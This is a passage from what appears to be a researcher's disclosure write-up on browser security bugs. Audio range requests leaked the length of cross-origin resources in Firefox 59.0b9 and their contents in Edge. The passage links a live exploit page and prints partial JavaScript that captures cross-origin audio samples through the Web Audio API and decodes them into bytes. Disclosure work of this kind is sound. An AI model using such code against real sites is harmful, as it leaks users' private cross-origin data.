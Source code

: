 <figure class="full-figure">
<div class="video"><iframe src="https://www.youtube.com/embed/D5wu_za7ows?rel=0&amp;showinfo=0" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe></div>
<figcaption>Length of sensitive resource revealed in Firefox 59.0b9</figcaption>
</figure>

It looks like the size isn't detected exactly, but Google returns a range, so the reported size includes the extra 44 bytes that are missing from the start (the WAV header).

And here's [a link to the attack](https://jewel-chair.glitch.me/exploit.html?url=https://www.google.com/gmail/about/), which works in Firefox 59.0b9 at least.

Leaking the length of a resource may not sound like a big deal, but consider an endpoint like `gender.json`. The content length can give a lot away. Also see [Timing attacks in the Modern Web](https://tom.vg/papers/timing-attacks_ccs2015.pdf) (PDF, heh) which demonstrates the amount of information content-length can leak.

Firefox handled this _brilliantly_. Within three hours [Paul Adenot](https://twitter.com/padenot?lang=en) replied to [the bug report](https://bugzilla.mozilla.org/show_bug.cgi?id=1441153#c4), confirming it, and digged into other potential leaks (there weren't any). I was able to engage with engineers directly on how the issue should be fixed, which was important as I was planning how to standardise the mitigation.

Since this was a regression caught in beta, Firefox were able to patch it before it reached stable.

# Edge security bug

Edge suffered from the same kind of bug, but with a huge twist. Firstly, it didn't care if the other server returned a 206 or not. Secondly, and this is the big one, it allowed the resulting audio to pass through the web audio API. The web audio API is like the `<canvas>` equivalent for audio, meaning I could monitor the samples being played:

```js
// Get the audio element.
const audio = document.querySelector('audio');
// Create a web audio context.
const ac = new AudioContext();
// Connect the two.
const source = ac.createMediaElementSource(audio);
// Create a script processor.
// This lets me transform the audio data. I don't really care
// about transforming, I just want to collect the data.
const scriptNode = ac.createScriptProcessor(256, 1, 1);
const datas = [];

scriptNode.onaudioprocess = (event) => {
  const inputData = event.inputBuffer.getChannelData(0);
  // Store the audio data
  if (!audio.paused) datas.push(inputData.slice());
};

// Connect the processor.
source.connect(scriptNode);
scriptNode.connect(ac.destination);

audio.addEventListener('ended', (event) => {
  source.disconnect(scriptNode);
  scriptNode.disconnect(ac.destination);

  // Now I can look at all the data received, and turn it from
  // audio sample data, back into bytes, then into a string.
  const str = datas.reduce((str, data) => {
    // Each sample is -1 to 1.
    // In the original wav it was 16-bits per sample,
    // so I map each value to a signed 16-bit value.
    const ints = Array.from(data).map((num) => Math.round(num * 32768));
```